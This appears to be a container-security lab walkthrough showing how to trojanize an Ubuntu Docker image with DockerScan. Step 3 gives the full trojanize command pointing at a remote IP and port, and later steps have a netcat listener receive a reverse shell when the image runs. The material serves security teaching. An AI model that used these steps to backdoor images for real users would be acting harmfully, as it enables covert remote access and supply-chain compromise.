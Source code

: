 # **`Trojanize Docker - DockerScan`**

###### A docker image can be trojanized by a tool called `DockerScan`. When a trojanized container is launched, the attacker can get a `reverse-shell` on-to the container 

##### Step 1:

* Pull and save ubuntu image (`ubuntu:latest`) that is to be trojanized.

```commandline
docker pull ubuntu:latest && docker save ubuntu:latest -o ubuntu-latest
``` 

![](img/trojan-docker-1.png)

##### Step 2:

* Fetch VM IP by running `ifconfig`

![](img/trojan-docker-2.png)


##### Step 3:

* Trojanize the saved docker file by running `dockerscan image modify trojanize ubuntu-latest -l <REMOTE_MACHINE_IP> -p <PORT> -o ubuntu-latest-trojanized`. It will create a `.tar` file.

![](img/trojan-docker-3.png)


##### Step 4:

* Once the command on Step 3 has been run, a `netcat` command is returned. Copy and paste the command in another tab.

![](img/trojan-docker-4.png)


##### Step 5:

* Load the trojanized docker `.tar` file by running `docker load -i ubuntu-latest-trojanized.tar`

![](img/trojan-docker-5.png)


##### Step 6:

* When the trojanized docker is run, the listener should have reverse-shell access to the container

![](img/trojan-docker-6.png)


##### Stop all running docker containers

* Run `clean-docker` to stop all the containers

```commandline
root@we45:~$ clean-docker
```
